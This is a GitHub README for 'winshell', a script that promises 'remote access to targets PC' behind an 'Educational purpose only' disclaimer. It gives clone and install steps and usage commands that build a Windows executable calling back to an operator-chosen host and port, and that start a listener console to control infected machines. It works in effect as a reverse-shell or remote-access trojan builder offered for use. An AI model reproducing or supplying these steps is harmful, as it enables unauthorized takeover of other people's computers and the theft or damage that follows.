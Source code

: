 # winshell
Simple script to get remote access to targets PC


Educational purpose only             
------------------------------------------

I'm not responsible for your actions 



------------------------
git clone https://github.com/EH30/winshell
cd winshell
pip install -r requirements.txt
Genrate exe file: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]
Listener console: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1


Genrating exe File Example: python winshell.py -l [You're Host/IP] -p [You're Port] --name [You're file Name]
Run this command it will open console for Listening: python winshell.py -l [You're Host/IP] -p [You're Port] --console 1


Console Example
---------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --console 1   
--------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG" >   
   
   
   

Generating exe file Example
--------------------------------------------------------------   
Command Example: python winshell.py -l 127.0.0.1 -p 9999 --name shell   
----------------------------------------------------------------------------------------------------   
<img src="https://github.com/EH30/winshell/blob/master/winshell_exe_shell_example.JPG">   

<img src="https://github.com/EH30/winshell/blob/master/winshells_console_example.JPG">   


